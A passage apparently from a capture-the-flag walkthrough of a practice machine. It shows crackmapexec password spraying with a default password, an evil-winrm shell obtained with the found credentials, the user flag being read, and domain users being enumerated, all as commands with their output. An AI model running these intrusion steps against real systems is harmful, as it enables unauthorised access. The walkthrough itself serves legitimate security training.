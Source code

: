 ```jsx
zach
simon
naoki
```

Use crackmapexec to test the accounts found in using rpcclient or ldapsearch with the password of "Welcome123!"

```jsx
crackmapexec smb 10.10.10.169 -u users -p Welcome123!
```

We get output

```jsx
...

SMB         10.10.10.169    445    RESOLUTE         [-] MEGABANK\claude:Welcome123! STATUS_LOGON_FAILURE
SMB         10.10.10.169    445    RESOLUTE         [+] MEGABANK\melanie:Welcome123!
```

## Initial Foothold

Now we have the assumed credentials of user "melanie" which we can use to authenticate to the server using winrm

We can use the credentials with the evil-winrm tool ([https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm))

```jsx
evil-winrm -u melanie -p Welcome123! -i 10.10.10.169
```

With this we get a shell!

```jsx
Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie> whoami
megabank\melanie
```

And we can grab the user flag

```jsx
*Evil-WinRM* PS C:\Users\melanie\Desktop> cat user.txt
87a[REDACTED]
```

## Privilege Escalation 1

Enumerate the users on the box

```jsx
*Evil-WinRM* PS C:\Users\melanie\Desktop> net user

User accounts for \\

-------------------------------------------------------------------------------
abigail                  Administrator            angela
annette                  annika                   claire
claude                   DefaultAccount           felicia
fred                     Guest                    gustavo
krbtgt                   marcus                   marko
melanie                  naoki                    paulo
per                      ryan                     sally
simon                    steve                    stevie
```